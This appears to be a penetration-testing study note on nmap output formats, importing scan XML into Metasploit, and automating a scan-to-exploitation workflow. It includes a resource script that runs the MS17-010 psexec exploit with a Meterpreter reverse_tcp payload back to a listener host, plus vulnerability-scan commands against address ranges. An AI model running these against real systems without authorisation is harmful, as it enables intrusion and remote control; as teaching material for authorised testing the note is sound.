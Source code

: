 - logging is the most imp thing during a pen test
- we use nmap output formats in logging
- -oN : exactly as terminal to save the output
- -oX : save as xml format and import the results into Metasploit
- -oS : script kiddie format
- -oG : output as grep format, usually used for automation
- -v: verbose
- -oA : output in the three major formats at once
- -d : increase debugging level
```
nmap -Pn -sS -F -T4 10.4.19.132 -oN nmap_normal.txt
```
  ```
  # Normal human-readable output
nmap -sV -p22,80 10.0.0.1 -oN results.nmap

# XML (recommended for tools)
nmap -sV -p- 10.0.0.0/24 -oX results.xml

# Grepable (old; not recommended)
nmap -sV 10.0.0.1 -oG results.gnmap

# All formats at once
nmap -sV -A 10.0.0.0/24 -oA scan-prefix

# Run NSE vuln scripts and save XML
nmap -sV --script vuln 10.0.0.0/24 -oX vuln-scan.xml

  ```
  ## Useful nmap flags for pentests

- `-Pn` skip ping/host discovery.
    
- `-p-` scan all 65535 ports.
    
- `-T0..T5` timing (0 slow stealth → 5 fast noisy).
    
- `-A` OS + version + script (aggressive).
    
- `-oX` XML output for tooling.
    
- `--script vuln,auth,discovery` for focused scans.
    

---

## Importing Nmap into Metasploit (msfconsole)

1. Start `msfconsole`.
    
2. Create or switch workspace:
    
    `workspace -a target_workspace workspace target_workspace`
    
3. Import XML:
    
    `db_import /path/to/results.xml`
    
4. Verify imported data:
    
    `hosts services vulns`
    
5. Example workflow after import:
    
    `# list hosts hosts  # list services for a host services -R 10.0.0.5  # search for likely modules search type:auxiliary name:ftp use auxiliary/scanner/ftp/anonymous set RHOSTS 10.0.0.0/24 run`
    

Notes:

- `db_import` maps XML service/version to msf services.
    
- If XML contains NSE script output it may appear in `vulns` or be visible in service notes.
    
- If you used `-oA`, point msf at the generated `.xml`.
    

---

## Automating scanning → exploitation

- Keep scans separated: discovery → service/version → vuln scripts.
    
- Import XML after each phase into a dedicated workspace.
    
- Use `search` in msf to find matching exploit/aux modules by service/version.
    
- Build resource scripts (`.rc`) to automate module runs:
    
    `workspace target db_import /path/to/results.xml use exploit/windows/smb/ms17_010_psexec set RHOSTS 10.0.0.10 set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 10.0.0.5 run`
    
- Run resource: `msfconsole -r script.rc` or inside msf: `resource script.rc`.
    

---

## Parsing tips and pitfalls

- Fields differ if you use `-oG` or `-oN`. Do not rely on `cut` positions unless you control nmap template.
    
- Use XML with `xmllint`, `xmlstarlet`, or Metasploit rather than brittle `grep/cut/awk`.
    
- When extracting host/ports with awk, prefer whitespace-safe parsing:
    
    `xmlstarlet sel -T -t -m "//host" -v "address/@addr" -o " " -v "ports/port[@state='open']/@portid" -n results.xml`
    
    (xmlstarlet example; use when scripting.)
    

---

## Short checklist for a scan-import cycle

-  Choose target scope and workspace.
    
-  Run discovery (`-sn` or `-Pn` if needed). Save XML.
    
-  Run service/version scan `-sV -p-`. Save XML.
    
-  Run NSE vuln scripts. Save XML.
    
-  `msfconsole` → `workspace` → `db_import` XML.
    
-  `hosts`, `services`, `vulns` review.
    
-  `search` modules and craft `.rc` tasks.
    

---

## Example mini-playbook

`# 1. discovery nmap -sn 10.0.0.0/24 -oX discovery.xml  # 2. full port + service/version nmap -sV -p- 10.0.0.0/24 -oX svc-scan.xml  # 3. vuln scripts nmap -sV --script vuln 10.0.0.0/24 -oX vuln-scan.xml  # 4. combine or import into metasploit # (import the most informative XML) msfconsole -q -x "workspace -a target; workspace target; db_import vuln-scan.xml; hosts; services; exit"`

---
